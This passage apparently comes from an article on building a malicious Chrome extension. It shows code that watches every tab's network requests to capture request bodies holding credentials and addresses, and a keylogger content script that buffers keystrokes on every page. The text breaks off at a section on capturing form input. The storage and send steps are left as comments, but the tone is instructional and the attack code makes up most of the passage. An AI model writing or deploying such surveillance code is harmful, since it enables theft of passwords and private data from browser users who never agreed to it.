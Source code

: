
_background.js_

## Page Traffic

The `webRequest` API lets us watch all network traffic from every tab, tease out network traffic with a `requestBody`, and extract capturing credentials, addresses, etc:

```
chrome.webRequest.onBeforeRequest.addListener(
  (details) =&gt; {
    if (details.requestBody) {
      // Capture requestBody data
    }
  },
  {
    urls: ["&lt;all_urls&gt;"],
  },
  ["requestBody"]
);
```

_background.js_

## Keylogger

With a content script running on every page, reading keystrokes is dead easy. Creating a keystroke buffer that is periodically flushed will give us nice consecutive keystrokes that are easy to read.

```
let buffer = "";

const debouncedCaptureKeylogBuffer = _.debounce(async () =&gt; {
  if (buffer.length &gt; 0) {
    // Flush the buffer

    buffer = "";
  }
}, 1000);

document.addEventListener("keyup", (e: KeyboardEvent) =&gt; {
  buffer += e.key;

  debouncedCaptureKeylogBuffer();
});
```

_content-script.js_

## Input Capturing

From the content script, we can just listen for `input` events on any editable elements and capture their value.
